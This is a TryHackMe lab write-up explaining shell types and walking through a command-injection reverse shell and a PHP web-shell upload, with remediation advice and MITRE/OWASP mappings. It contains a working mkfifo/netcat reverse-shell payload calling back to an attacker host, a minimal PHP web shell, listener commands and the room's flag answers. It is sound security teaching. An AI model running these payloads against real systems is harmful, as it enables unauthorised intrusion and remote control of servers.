








# Overview

When I first encountered the terms **Reverse Shell**, **Bind Shell**, and **Web Shell**, I assumed they all referred to the same concept—simply different ways to obtain command execution on a target machine.

As I progressed through penetration testing labs, I realized that while these techniques ultimately provide shell access, they operate very differently and are designed for different situations.

This room serves as an introduction to the most common shell types encountered during web exploitation. Rather than focusing solely on executing payloads, it explains **how shells work**, **why different shell types exist**, and **when each approach is appropriate**.

In the practical section, we apply these concepts by exploiting two intentionally vulnerable web applications:

- A **Command Injection** vulnerability to obtain a Reverse Shell.
- An **Unrestricted File Upload** vulnerability to deploy a PHP Web Shell.

The goal of this walkthrough is not only to complete the room but also to understand the mechanics behind every payload that is executed.

> **Disclaimer**
>
> This walkthrough is written for educational purposes only. All techniques demonstrated here were performed inside the TryHackMe lab environment. Never execute these techniques against systems you do not own or have explicit authorization to test.

---

# Background Concept

Before exploiting any vulnerability, it's important to understand **what a shell actually is**.

Many beginners think a shell is simply "a terminal."

While that is technically true from the user's perspective, a shell is more accurately described as a program that acts as an interface between the user and the operating system.

Instead of interacting directly with the Linux kernel, users communicate with a shell, which interprets commands and requests the operating system to execute them.

For example, when we type:

```bash
ls
```

the shell does **not** perform the directory listing itself.

Instead, it:

1. Reads the command.
2. Locates the executable (`/bin/ls`).
3. Executes the program.
4. Displays the output back to the user.

The process is illustrated below.



Because penetration testers aim to execute arbitrary commands on a target system, obtaining a shell is often considered one of the primary objectives after successful exploitation.

---

# What Is a Reverse Shell?

A Reverse Shell is one of the most common techniques used after Remote Code Execution (RCE).

Instead of the attacker connecting to the victim, the victim initiates a connection back to the attacker.

This approach is particularly useful because outbound connections are generally allowed through firewalls, while inbound connections are often blocked.

The communication flow looks like this:



The attacker first prepares a listener.

```bash
nc -lvnp 443
```

Once the vulnerable application executes the payload, the victim connects back to the attacker's machine.

From that point onward, the attacker gains an interactive command shell.

---

# What Is a Bind Shell?

A Bind Shell follows the opposite approach.

Instead of connecting back to the attacker, the victim opens a listening port.

The attacker then connects directly.



Although bind shells are conceptually simpler, they are less practical in modern environments because inbound firewall rules frequently block unsolicited connections.

---

# What Is a Web Shell?

Unlike Reverse Shells and Bind Shells, a Web Shell is not a network communication technique.

Instead, it is simply a script uploaded to a web server that allows command execution through HTTP requests.

For example, a minimal PHP Web Shell might contain only a few lines of code.

```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

When accessed through a browser:

```
http://target/uploads/shell.php?cmd=id
```

the server executes:

```bash
id
```

and returns the output directly to the browser.

This makes a Web Shell extremely useful when an application suffers from an unrestricted file upload vulnerability.

---

# Comparing Different Shell Types

Although each technique ultimately provides command execution, they work in fundamentally different ways.

| Reverse Shell | Bind Shell | Web Shell |
|---------------|------------|-----------|
| Victim connects to attacker | Attacker connects to victim | Commands executed via HTTP |
| Requires listener | Requires open listening port | Requires web server |
| Firewall friendly | Often blocked by firewall | Depends on upload vulnerability |
| Interactive terminal | Interactive terminal | Browser-based command execution |

Choosing the appropriate technique depends entirely on the vulnerability being exploited and the surrounding network environment.

---

# Lab Information

The practical section of this room provides three different web services.

| Target | Purpose |
|---------|---------|
| `10.49.164.196:8080` | Landing page |
| `10.49.164.196:8081` | Command Injection challenge |
| `10.49.164.196:8082` | Unrestricted File Upload challenge |

Attacker Machine

| Item | Value |
|------|-------|
| IP Address | `10.49.96.122` |
| Listener | Netcat |
| Port | `443` |

Target Machine

| Service | Version |
|----------|---------|
| SSH | OpenSSH 8.2p1 |
| HTTP | Apache 2.4.54 |
| Python HTTP | Python 3.5–3.10 |

---

# Phase 1 — Reconnaissance

Before attempting any exploitation, the first step is understanding what services are exposed by the target.

A simple Nmap scan reveals the available attack surface.

```bash
nmap -sV 10.49.164.196
```

Breaking down the command:

| Option | Purpose |
|---------|----------|
| `-sV` | Detect service versions running on open ports |

The scan produces the following results.

```text
22/tcp   open   ssh
80/tcp   open   http
8080/tcp open   http
8081/tcp open   http
8082/tcp open   http
```

Several observations can immediately be made.

The SSH service is available but no credentials have been provided.

Port **8080** hosts the informational landing page.

More interestingly, two additional HTTP services are exposed.

```
8081
```

and

```
8082
```

Based on the room description, these correspond to two intentionally vulnerable web applications.

Rather than blindly attacking every service, reconnaissance allows us to prioritize the most promising attack vectors.

---

# Attack Surface Assessment

At this stage, the attack surface can be summarized as follows.



The room intentionally separates each vulnerability into its own application.

This provides an excellent opportunity to compare two different post-exploitation techniques:

- Reverse Shell via Command Injection
- Web Shell via File Upload

---

# Phase Summary

During this phase we:

- Reviewed the role of shells in penetration testing.
- Learned the differences between Reverse Shells, Bind Shells, and Web Shells.
- Understood why attackers often prefer Reverse Shells.
- Identified the services exposed by the target machine.
- Mapped the available attack surface before attempting exploitation.

With the reconnaissance complete, the next phase focuses on exploiting the Command Injection vulnerability to establish a fully interactive Reverse Shell and understand how every component of the payload works under the hood.

# Phase 2 — Exploiting Command Injection

With the attack surface identified, the next objective is obtaining remote command execution through the vulnerable application running on port **8081**.

According to the room description, this application is vulnerable to **Command Injection**.

Rather than immediately launching a reverse shell payload, it's important to understand why this vulnerability exists in the first place.

---

# Understanding Command Injection

Command Injection occurs when a web application executes operating system commands using user-controlled input without proper validation.

For example, consider the following PHP code.

```php
<?php

$ip = $_POST['ip'];

system("ping -c 4 " . $ip);

?>
```

The developer intends users to submit an IP address such as:

```
8.8.8.8
```

which generates:

```bash
ping -c 4 8.8.8.8
```

However, because the application directly concatenates user input into a shell command, an attacker can inject additional commands.

Instead of submitting:

```
8.8.8.8
```

an attacker may submit:

```text
8.8.8.8; id
```

The server now executes:

```bash
ping -c 4 8.8.8.8
id
```

Rather than executing a single command, the shell executes both.

This behavior transforms a simple diagnostic feature into a Remote Code Execution (RCE) vulnerability.

---

# Why Remote Code Execution Is Dangerous

Once an attacker can execute arbitrary operating system commands, the web application is no longer the primary target.

Instead, the attacker begins interacting directly with the underlying operating system.

At this stage, the attacker may:

- Read sensitive files
- Enumerate users
- Download malware
- Modify configurations
- Establish persistence
- Obtain an interactive shell

In this room, our objective is the final item: obtaining an interactive Reverse Shell.

---

# Preparing the Listener

Before sending the payload, the attacker's machine must be ready to receive the incoming connection.

Netcat is commonly used as a lightweight TCP listener.

```bash
nc -lvnp 443
```

Let's examine each option.

| Option | Purpose |
|---------|----------|
| `-l` | Listen for incoming connections |
| `-v` | Enable verbose output |
| `-n` | Disable DNS resolution |
| `-p` | Specify the listening port |

Once executed, Netcat waits for a connection.

```text
Listening on 0.0.0.0 443
```

At this point, nothing happens until the vulnerable server executes our payload.

---

# The Reverse Shell Payload

The room uses the following payload.

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.49.96.122 443 >/tmp/f
```

Although this appears intimidating at first glance, it is simply several Linux commands chained together.

We'll break down each component individually.

---

# Step 1 — Removing Previous Pipes

```bash
rm -f /tmp/f
```

The command removes any existing file named:

```
/tmp/f
```

The `-f` flag forces deletion without prompting for confirmation.

This ensures that any leftover named pipe from a previous execution does not interfere with the current payload.

---

# Step 2 — Creating a Named Pipe

```bash
mkfifo /tmp/f
```

This command creates a **FIFO (First In, First Out)** special file.

Unlike a regular file, a FIFO acts as a communication channel between processes.

Think of it as a tunnel.

One process writes data into the tunnel.

Another process reads data from it.



This pipe becomes the bridge that allows commands and command output to travel between the shell and Netcat.

---

# Step 3 — Waiting for Commands

```bash
cat /tmp/f
```

The `cat` command now waits for data arriving through the FIFO.

Whenever commands are written into the pipe, `cat` immediately forwards them to the next command in the pipeline.

Without this component, the shell would have no input to execute.

---

# Step 4 — Launching an Interactive Shell

```bash
sh -i
```

The `-i` flag launches an **interactive shell**.

Interactive mode is important because it continuously accepts commands rather than executing a single command and exiting.

The shell behaves similarly to a terminal session.

---

# Step 5 — Redirecting Standard Error

```bash
2>&1
```

Linux processes communicate using three standard streams.

| Stream | Purpose |
|---------|----------|
| stdin | Input |
| stdout | Normal output |
| stderr | Error output |

Normally, error messages appear separately.

The syntax:

```bash
2>&1
```

redirects **stderr** into **stdout**, ensuring that both successful output and error messages travel back to the attacker.

Without this redirection, troubleshooting would become significantly more difficult.

---

# Step 6 — Connecting Back to the Attacker

```bash
nc 10.49.96.122 443
```

Netcat now initiates an outbound TCP connection to the attacker's machine.

Notice that the **victim** establishes the connection.

This is precisely why the technique is called a **Reverse Shell**.

The communication flow is illustrated below.



---

# Step 7 — Completing Two-Way Communication

```bash
>/tmp/f
```

Finally, command output is redirected back into the FIFO.

The complete data flow now becomes:



This loop enables fully interactive communication between both machines.

Commands travel from the attacker to the victim.

Results travel back through the same channel.

---

# Triggering the Payload

The vulnerable application accepts user input through a web form.

After opening:

```
http://10.49.164.196:8081
```

the payload is submitted into the vulnerable input field.

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.49.96.122 443 >/tmp/f
```

Once submitted, the application executes the command on the underlying operating system.

Immediately afterwards, the Netcat listener receives a connection.

```text
Listening on 0.0.0.0 443

Connection received on 10.49.164.196

sh: 0: can't access tty; job control turned off
```

Although the shell is not fully interactive, remote command execution has been successfully achieved.

---

# Initial Enumeration

Obtaining a shell is only the beginning.

The next step is understanding our current execution context.

First, verify the current user.

```bash
whoami
```

Output:

```text
www-data
```

The process is running as the Apache web server account.

Next, determine the current working directory.

```bash
pwd
```

Output:

```text
/var/www/html
```

Listing the directory contents reveals the application's web root.

```bash
ls
```

```text
hello.txt

index.php

style.css
```

At this stage, we confirm that our shell is executing within the web server's document root.

---

# Enumerating the Operating System

Now we begin exploring the target system.

Checking our privileges.

```bash
id
```

Output:

```text
uid=33(www-data)

gid=33(www-data)
```

This confirms that we are operating as an unprivileged web server account.

Next, inspect the filesystem root.

```bash
ls /
```

Output:

```text
bin

boot

dev

etc

flag.txt

home

lib

proc

usr

var
```

One file immediately stands out.

```
flag.txt
```

---

# Retrieving the Flag

Reading the file is straightforward.

```bash
cat /flag.txt
```

Output:

```text
THM{0f28b3e1b00becf15d01a1151baf10fd713bc625}
```

Successfully retrieving the flag confirms that our Reverse Shell provides unrestricted command execution within the permissions of the **www-data** account.

---

# Phase Summary

During this phase we:

- Identified a Command Injection vulnerability.
- Understood how Remote Code Execution occurs.
- Prepared a Netcat listener.
- Analyzed every component of a Reverse Shell payload.
- Established a Reverse Shell connection.
- Performed basic Linux enumeration.
- Identified the execution context.
- Retrieved the first flag from the target system.

While the Reverse Shell provides an interactive command-line interface, it depends on an active network connection to the attacker's machine.

In the next phase, we will explore a different post-exploitation technique by abusing an **Unrestricted File Upload** vulnerability to deploy a persistent PHP Web Shell directly onto the web server.

# Phase 3 — Exploiting an Unrestricted File Upload

After successfully obtaining a Reverse Shell through Command Injection, the room introduces a second scenario based on a different vulnerability.

Instead of injecting commands directly into an existing application, we are now given the ability to upload files to the web server.

At first glance, uploading a file may appear harmless.

However, if the application allows executable files such as PHP scripts to be uploaded without proper validation, the attacker can deploy a **Web Shell** and execute arbitrary operating system commands through the browser.

Unlike a Reverse Shell, which depends on an outbound network connection to the attacker's machine, a Web Shell resides directly on the target server and can be accessed whenever needed.

---

# Understanding Unrestricted File Upload

Many modern web applications allow users to upload content such as:

- Profile pictures
- Documents
- PDF reports
- Attachments

A secure upload mechanism should verify several properties before accepting a file.

For example:

- File extension
- MIME type
- File signature (magic bytes)
- Maximum file size
- Storage location
- Execution permissions

If these validations are missing or improperly implemented, attackers may upload executable code instead of harmless documents.

For example:

```
profile.jpg
```

becomes

```
shell.php
```

If the web server processes PHP files inside the upload directory, every request to that file executes server-side code.

Instead of storing a simple document, the application unknowingly deploys attacker-controlled code onto the server.

---

# Why PHP Files Are Dangerous

Unlike HTML files, PHP is executed on the server before the response is sent to the client.

Suppose the browser requests:

```
http://target/uploads/shell.php
```

The web server does **not** send the PHP source code.

Instead, PHP interprets the script, executes its instructions, and returns the resulting output.

This means that if an attacker uploads malicious PHP code, the server willingly executes it.

---

# Building a Minimal PHP Web Shell

Create a new working directory.

```bash
mkdir webshell

cd webshell
```

Next, create a file named:

```
shell.php
```

with the following content.

```php
<?php

if (isset($_GET['cmd'])) {

    system($_GET['cmd']);

}

?>
```

Although this script contains only a few lines, it provides powerful functionality.

Let's examine each statement.

---

# Breaking Down the PHP Code

```php
<?php
```

Marks the beginning of PHP code.

Everything between `<?php` and `?>` is executed by the PHP interpreter.

---

```php
isset($_GET['cmd'])
```

The `$_GET` array stores parameters supplied through the URL.

For example:

```
shell.php?cmd=whoami
```

creates:

```
$_GET['cmd']
```

whose value becomes:

```
whoami
```

The `isset()` function simply checks whether the parameter exists before continuing.

---

```php
system($_GET['cmd']);
```

This is the most critical line.

The PHP `system()` function passes the supplied string directly to the operating system shell.

If the URL contains:

```
cmd=id
```

PHP executes:

```bash
id
```

If the URL contains:

```
cmd=whoami
```

PHP executes:

```bash
whoami
```

In other words, every command supplied by the attacker becomes an operating system command executed by the web server.

---

# Uploading the Web Shell

Navigate to the vulnerable application.

```
http://10.49.164.196:8082
```

Upload the previously created file:

```
shell.php
```

Because the application performs no meaningful validation, the upload succeeds.

The application stores the file inside:

```
/uploads/
```

This immediately transforms the uploaded PHP script into a remotely accessible command execution interface.

---

# Executing the First Command

Open the following URL.

```
http://10.49.164.196:8082/uploads/shell.php?cmd=whoami
```

Output:

```text
www-data
```

This confirms that the PHP script has been executed successfully.

Rather than displaying source code, the server interpreted the PHP script and executed the `whoami` command.

---

# Verifying the Working Directory

Next, determine the current execution directory.

```
http://10.49.164.196:8082/uploads/shell.php?cmd=pwd
```

Output:

```text
/var/www/html/uploads
```

This confirms that the uploaded shell resides inside the web server's upload directory.

Understanding the current working directory is useful when navigating the filesystem or locating uploaded files.

---

# Exploring the Filesystem

Now list the root directory.

```
http://10.49.164.196:8082/uploads/shell.php?cmd=ls%20/
```

Notice that spaces inside URLs are encoded as:

```
%20
```

Output:

```text
bin

boot

dev

etc

flag.txt

home

lib

proc

usr

var
```

Once again, the file:

```
flag.txt
```

immediately attracts attention.

---

# Retrieving the Flag

Finally, display the contents of the flag.

```
http://10.49.164.196:8082/uploads/shell.php?cmd=cat%20/flag.txt
```

Output:

```text
THM{202bb14ed12120b31300cfbbbdd35998786b44e5}
```

Successfully reading the flag confirms that the uploaded PHP script provides arbitrary command execution with the privileges of the web server process.

---

# Reverse Shell vs Web Shell

Although both techniques provide command execution, they operate differently.

| Reverse Shell | Web Shell |
|---------------|-----------|
| Requires a listener | Accessible through a browser |
| Victim initiates a network connection | Uses standard HTTP requests |
| Interactive terminal | Executes one command per request |
| Depends on network connectivity | Remains available until removed |

Reverse Shells are generally preferred for interactive post-exploitation.

Web Shells, however, are extremely useful for maintaining persistent access when outbound connections are unreliable or blocked.

---

# What Happened Under the Hood

The following diagram illustrates the entire upload and execution process.

```mermaid
flowchart LR

A[Attacker]

A -->|Upload shell.php| B[Web Application]

B --> C[/uploads/shell.php]

A -->|HTTP GET cmd=whoami| C

C --> D[PHP Interpreter]

D --> E[system()]

E --> F[Linux Shell]

F --> G[Command Output]

G --> A
```

Unlike a Reverse Shell, every command travels as an ordinary HTTP request.

The web server executes the requested command, captures the output, and returns it inside the HTTP response.

Because this traffic resembles normal web browsing, poorly monitored environments may fail to detect malicious activity.

---

# Phase Summary

During this phase we:

- Identified an Unrestricted File Upload vulnerability.
- Built a minimal PHP Web Shell.
- Understood how the `system()` function executes operating system commands.
- Uploaded the Web Shell successfully.
- Executed arbitrary Linux commands through a browser.
- Enumerated the filesystem.
- Retrieved the second flag from the target machine.

By comparing this technique with the Reverse Shell obtained in the previous phase, we can see that both ultimately provide command execution, yet rely on completely different exploitation paths.

Understanding when to use each technique is an important skill during real-world penetration testing.

# What Happened Under the Hood

Throughout this room, we explored two different attack paths that ultimately achieved the same objective: **remote command execution**.

The first attack abused a **Command Injection** vulnerability to launch a Reverse Shell.

The second attack exploited an **Unrestricted File Upload** vulnerability to deploy a PHP Web Shell.

Although the exploitation techniques differ, both eventually allow the attacker to execute operating system commands on the target machine.

The overall attack flow can be summarized below.



One important lesson from this room is that exploitation rarely begins with sophisticated payloads.

Instead, successful attacks usually start with **careful reconnaissance**, identifying exposed services, understanding application behavior, and selecting the most appropriate exploitation technique.

---

# Mistakes I Made

While completing this room, I encountered several small mistakes that are worth documenting.

## Forgetting to Start the Listener

During my first attempt, I submitted the Reverse Shell payload before starting Netcat.

As expected, the target attempted to connect back, but no listener was available.

Always start the listener **before** triggering a Reverse Shell payload.

```bash
nc -lvnp 443
```

---

## Using the Wrong Attacker IP Address

Reverse Shells depend entirely on the target connecting back to the attacker's machine.

Using an incorrect IP address results in a failed connection, even if the payload itself is correct.

Always verify the VPN-assigned IP before launching the exploit.

---

## Expecting a Fully Interactive Shell

Immediately after the Reverse Shell connected, the terminal displayed:

```text
sh: 0: can't access tty; job control turned off
```

This is normal.

The shell is functional but lacks a proper TTY.

Although this room does not require shell stabilization, in real-world engagements it is common to upgrade the shell using:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

or

```bash
script -qc /bin/bash /dev/null
```

to obtain a more comfortable interactive session.

---

## Forgetting URL Encoding

When sending commands through the Web Shell, spaces cannot appear directly inside URLs.

For example:

Incorrect:

```
cat /flag.txt
```

Correct:

```
cat%20/flag.txt
```

Understanding basic URL encoding prevents unnecessary troubleshooting.

---

# Flag Reference / Cheat Sheet

## Nmap

```bash
nmap -sV TARGET_IP
```

Detect service versions.

---

## Netcat Listener

```bash
nc -lvnp 443
```

Listen for incoming Reverse Shell connections.

---

## Reverse Shell Payload

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP 443 >/tmp/f
```

Creates an interactive Reverse Shell using a named pipe and Netcat.

---

## Create PHP Web Shell

```php
<?php
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
```

---

## Common Enumeration Commands

```bash
whoami
```

Display current user.

```bash
id
```

Display user and group information.

```bash
pwd
```

Print working directory.

```bash
ls
```

List directory contents.

```bash
ls /
```

List the filesystem root.

```bash
cat /flag.txt
```

Display the flag.

---

# Findings & Recommendations

## Finding 1 — Command Injection Vulnerability

### Description

The web application executed operating system commands using user-controlled input without proper sanitization.

### Impact

An attacker can execute arbitrary operating system commands, leading to complete server compromise within the privileges of the vulnerable process.

### Recommendation

- Avoid executing shell commands whenever possible.
- Use safe language-specific APIs instead of shell invocation.
- Validate and sanitize all user input.
- Apply allow-list validation.
- Execute applications using the principle of least privilege.

---

## Finding 2 — Unrestricted File Upload

### Description

The application allowed executable PHP files to be uploaded without proper validation.

### Impact

Attackers can deploy Web Shells that provide persistent Remote Code Execution.

### Recommendation

- Restrict allowed file extensions.
- Validate MIME types.
- Verify file signatures (magic bytes).
- Store uploaded files outside the web root.
- Disable script execution inside upload directories.

---

## Finding 3 — Excessive Permissions

### Description

Although the compromised account was limited to `www-data`, it could still access sensitive files such as:

```
/flag.txt
```

In production systems, poor filesystem permissions may expose confidential information.

### Recommendation

Review file permissions regularly and ensure sensitive files are inaccessible to web server accounts.

---

# MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|---------|-----------|----|
| Reconnaissance | Active Scanning | T1595 |
| Initial Access | Exploit Public-Facing Application | T1190 |
| Execution | Command and Scripting Interpreter: Unix Shell | T1059.004 |
| Persistence | Web Shell | T1505.003 |
| Discovery | File and Directory Discovery | T1083 |
| Discovery | System Owner/User Discovery | T1033 |

---

# OWASP Top 10 Mapping

| Category | Explanation |
|-----------|-------------|
| A01 Broken Access Control | Improper access restrictions may expose sensitive resources. |
| A03 Injection | Command Injection allows arbitrary OS command execution. |
| A05 Security Misconfiguration | Upload directories permitting PHP execution represent insecure configurations. |
| A06 Vulnerable and Outdated Components | Outdated software often introduces exploitable upload or injection flaws. |
| A09 Security Logging and Monitoring Failures | Enumeration and exploitation attempts should be detected and investigated. |

---

# Room Q&A

| Question | Answer |
|----------|--------|
| Using a Reverse Shell, what is the first flag? | `THM{0f28b3e1b00becf15d01a1151baf10fd713bc625}` |
| Using a PHP Web Shell, what is the second flag? | `THM{202bb14ed12120b31300cfbbbdd35998786b44e5}` |

---

# Lessons Learned

## Red Team Perspective

This room demonstrates that Remote Code Execution can be achieved through multiple attack vectors.

Although both vulnerabilities ultimately provide shell access, they require different approaches.

A Reverse Shell offers an interactive terminal and is often preferred during active exploitation.

A Web Shell, on the other hand, provides persistent command execution through HTTP and can remain accessible until removed from the server.

Successful penetration testing is not about memorizing payloads.

It is about understanding why those payloads work, recognizing the underlying vulnerability, and adapting techniques to the environment.

---

## Blue Team Perspective

From a defensive standpoint, preventing shell access begins long before exploitation.

Organizations should:

- Validate all user input.
- Avoid executing operating system commands from web applications.
- Disable execution permissions inside upload directories.
- Monitor suspicious outbound connections initiated by web servers.
- Detect repeated requests containing operating system commands.
- Review uploaded files for executable content.
- Apply the principle of least privilege to web server accounts.

By reducing exposed attack surfaces and monitoring abnormal behavior, defenders can significantly limit opportunities for attackers.

---

# Conclusion

The **Shells Overview** room provides an excellent introduction to one of the most fundamental concepts in penetration testing: obtaining shell access after successful exploitation.

Rather than treating Reverse Shells, Bind Shells, and Web Shells as isolated topics, the room demonstrates how each technique fits into different attack scenarios and why understanding their underlying mechanics is more valuable than simply memorizing payloads.

Through the practical exercises, we exploited both a **Command Injection** vulnerability and an **Unrestricted File Upload** vulnerability, ultimately achieving Remote Code Execution through two distinct methods.

Perhaps the most valuable takeaway is that effective penetration testing is driven by understanding, not automation.

Anyone can copy a payload from the internet.

A skilled security practitioner understands how that payload works, why it succeeds, its limitations, and how defenders can detect or prevent it.

Mastering these concepts builds a strong foundation for more advanced topics such as privilege escalation, persistence, lateral movement, and post-exploitation in real-world environments.

---

**Thanks for reading!**

If you found this walkthrough useful, feel free to explore my other cybersecurity write-ups covering TryHackMe, Hack The Box, PortSwigger Web Security Academy, and hands-on penetration testing labs.

Happy Hacking! 🚀